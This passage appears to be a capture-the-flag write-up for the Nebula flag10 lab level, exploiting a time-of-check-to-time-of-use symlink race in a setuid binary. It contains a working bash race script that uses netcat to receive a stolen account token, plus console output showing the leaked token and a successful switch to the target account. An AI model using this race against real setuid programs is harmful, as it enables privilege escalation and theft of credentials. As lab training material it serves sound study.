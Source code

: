 So /home/flag10/flag10 binary sends arbitrary file with access() permission to
some host, port 18211. 

We can test it in two screens using:
{% codeblock %}
sh-4.2$ nc -l 18211

sh-4.2$ /home/flag10/flag10 /etc/passwd 0
{% endcodeblock %}

Our exploit:
{% codeblock lang:bash mklink.sh %}
#!/usr/bin/env bash

run_netcat() {
  while :; do nc -l 18211; done
}

make_symlinks() {
  while :; do rm /tmp/token 2>/dev/null; touch /tmp/token; ln -sf /home/flag10/token /tmp/token; done
}

run_flag() {
  while :; do /home/flag10/flag10 /tmp/token 0 >/dev/null 2>&1 ; done
}

run_netcat &
make_symlinks &
run_flag &

sleep 0.05
pkill -P $$ # Kill all children
{% endcodeblock %}

{% codeblock lang:console %}
sh-4.2$ ./mklink.sh 
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
./mklink.sh: line 20: 31349 Terminated              run_netcat
./mklink.sh: line 20: 31350 Terminated              make_symlinks
./mklink.sh: line 20: 31351 Terminated              run_flag

sh-4.2$ su flag10
Password: 

sh-4.2$ id
uid=989(flag10) gid=989(flag10) groups=989(flag10)

sh-4.2$ getflag
You have successfully executed getflag on a target account
{% endcodeblock %}
